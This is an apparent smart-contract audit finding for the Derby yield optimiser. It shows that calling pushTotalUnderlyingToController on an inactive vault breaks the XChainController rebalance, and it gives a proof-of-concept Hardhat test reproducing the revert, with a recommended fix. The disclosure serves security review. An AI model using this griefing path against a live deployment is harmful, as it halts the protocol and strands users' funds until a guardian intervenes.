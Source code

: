 immeas

medium

# calling `pushTotalUnderlyingToController` on an inactive vault will break rebalance

## Summary
If a vault is inactive (no allocations from game) a user can still call `pushTotalUnderlyingToController` from it and cause the state in `XChainController` to be out of sync. 

## Vulnerability Detail
At the end of step 1 in a rebalance, if a vault doesn't get any allocation by the vault, it is marked as inactive:
https://github.com/sherlock-audit/2023-01-derby/blob/main/derby-yield-optimiser/contracts/XChainController.sol#L229-L232

Then in step 2 all vaults push their underlying to `XChainController`.

In step 3 it is verified that all active vaults have pushed their funds to `XChainController`:
https://github.com/sherlock-audit/2023-01-derby/blob/main/derby-yield-optimiser/contracts/XChainController.sol#L298

https://github.com/sherlock-audit/2023-01-derby/blob/main/derby-yield-optimiser/contracts/XChainController.sol#L106-L112

However a user can call `pushTotalUnderlyingToController` on the inactive vault increasing `underlyingReceived` causing this check to fail.

PoC test in `xChainController.test.ts`, place first
```javascript
  it('push underlying for inactive vault', async function () {
    basketId = await run('game_mint_basket', { vaultnumber: vaultNumber });

    const allocationArray = [
      [200, 0, 0, 200, 0], // 400
      [100, 0, 200, 100, 200], // 600
      [0, 100, 200, 300, 400], // 1000
      [0, 0, 0, 0, 0], // 0
    ];
    const totalAllocations = 2000;

    await derbyToken.connect(user).increaseAllowance(game.address, totalAllocations);
    await game.connect(user).rebalanceBasket(basketId, allocationArray);

    await xChainController.connect(guardian).resetVaultStagesDao(vaultNumber);

    expect(await xChainController.getVaultReadyState(vaultNumber)).to.be.equal(true);
    // chainIds = [10, 100, 1000, 2000];
    await expect(game.pushAllocationsToController(vaultNumber, { value: parseEther('0.1') }))
      .to.emit(game, 'PushedAllocationsToController')
      .withArgs(vaultNumber, [400, 600, 1000]);

    // perform step 1.5 manually
    await xChainController.sendFeedbackToVault(vaultNumber, chainIds[0]);
    await xChainController.sendFeedbackToVault(vaultNumber, chainIds[1]);
    await xChainController.sendFeedbackToVault(vaultNumber, chainIds[2]);
    await xChainController.sendFeedbackToVault(vaultNumber, chainIds[3]);

    // chainId on or off
    expect(await xChainController.getVaultChainIdOff(vaultNumber, 10)).to.be.false;
    expect(await xChainController.getVaultChainIdOff(vaultNumber, 100)).to.be.false;
    expect(await xChainController.getVaultChainIdOff(vaultNumber, 1000)).to.be.false;
    expect(await xChainController.getVaultChainIdOff(vaultNumber, 10000)).to.be.true;
 
    await vault1.connect(user).deposit(100_000 * 1e6, userAddr);
    await vault2.connect(user).deposit(200_000 * 1e6, userAddr);

    await vault2.connect(user).withdrawalRequest(50_000 * 1e6);

    await vault1.pushTotalUnderlyingToController({ value: parseEther('0.1') });
    await vault2.pushTotalUnderlyingToController({ value: parseEther('0.1') });
    await vault3.pushTotalUnderlyingToController({ value: parseEther('0.1') });
    // also push for the inactive vault
    await vault4.pushTotalUnderlyingToController({ value: parseEther('0.1') });

    // step 3 will revert
    await expect(xChainController.pushVaultAmounts(vaultNumber, 10, {value: parseEther('0.1'),})).to.be.revertedWith('Not all underlyings received');
  });
```

This can also happen naturally if someone deposits into the inactive vault (before it is turned off) even though it has received no allocations from game.

## Impact
Until `guardian` steps in and manually changes `underlyingReceived` the rebalance process will be halted.

## Code Snippet
https://github.com/sherlock-audit/2023-01-derby/blob/main/derby-yield-optimiser/contracts/XChainController.sol#L379-L391

## Tool used
Manual Review

## Recommendation
Require all vaults to push underlying not only active ones. Since a vault without allocations can still get deposits directly to it that should be re-distributed.